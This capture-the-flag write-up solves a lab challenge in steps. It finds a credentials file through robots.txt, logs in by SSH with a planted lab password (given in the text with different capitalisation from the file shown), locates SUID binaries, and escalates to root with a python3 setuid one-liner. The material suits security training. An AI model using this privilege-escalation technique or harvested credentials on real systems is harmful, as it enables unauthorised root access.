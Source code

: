 # DevSec? No thanks 1 & 2
- Author: Evan Pardon | [supasuge](https://github.com/supasuge)

## Introduction

This challenge presents a very simple information disclosure vulnerability.

### Credential Discovery

To find the user credentials and gain access, visit `/robots.txt`. Here, you'll find a few directories listed as follows:

```
User-agent: *
Disallow: /admin/
Disallow: /backup/
Disallow: /notes/
Disallow: /internal/
Disallow: /dev/

# SECURITY NOTE: 
# The following directories contain sensitive information and
# should not be accessible by web crawlers or unauthorized users
#
# - /admin/ : Contains administrative credentials and system access information
# - /backup/ : Contains system and data backups
# - /notes/ : Contains server configuration and security notes
# - /internal/ : Internal company resources
# - /dev/ : Development and testing resources
#
# TODO: Remove admin credentials file from /admin/ directory before production
# TODO: Set up proper authentication for sensitive directories
```
Now, after checking `/admin/` you'll find the file `credentials.txt` that is indexed. In this file, you'll find multiple different credentials for different users.
The correct username/password is `ctfuser`/`CTF_Password2023!`:

![image](https://github.com/user-attachments/assets/dd73f151-39c8-4007-88c5-2aeecdee71a2)

```
SECURETECH SYSTEMS - CREDENTIALS DATABASE
=========================================

INTERNAL SYSTEMS ACCESS
-----------------------
Development Environment:
* URL: https://dev.securetech-internal.com
* Username: developer
* Password: Dev#2023!Test

Testing Environment:
* URL: https://test.securetech-internal.com
* Username: tester
* Password: Test$Environment2023

Staging Environment:
* URL: https://staging.securetech-internal.com
* Username: stageadmin
* Password: St@g!ng_Server_2023

PRODUCTION ENVIRONMENT:
* URL: https://admin.securetech-systems.com
* Username: admin
* Password: [REDACTED BY SECURITY POLICY]

DATABASE ACCESS:
* Host: db.securetech-internal.com
* Username: dbadmin
* Password: [STORED IN PASSWORD MANAGER]

LINUX SERVER ACCESS:
* Server: ubuntu-srv-01.securetech-internal.com
* SSH Username: ctfuser
* SSH Password: CTF_password2023!
* Key Location: [REDACTED]

REMINDER:
- All passwords should be rotated every 90 days
- Production credentials should NEVER be stored in plaintext
- Use company password manager for sensitive credentials
- Report any suspicious activity to security@securetech-systems.com

Document Classification: CONFIDENTIAL
Last Updated: 2023-10-18
Created By: James Wilson, IT Security Lead
```

After SSH'ing into the server:
```bash
ssh ctfuser@CONTAINER_IP -p 1022
```

Search for SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

This will show that `python3` has the SUID bit set under `/bin`, and this is the PATH set for `ctfuser`.

To escalate privileges to `root`:
```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
export PATH=/usr/sbin
whoami
$ root
cd /root
cat root.txt
```

Thanks for reading!



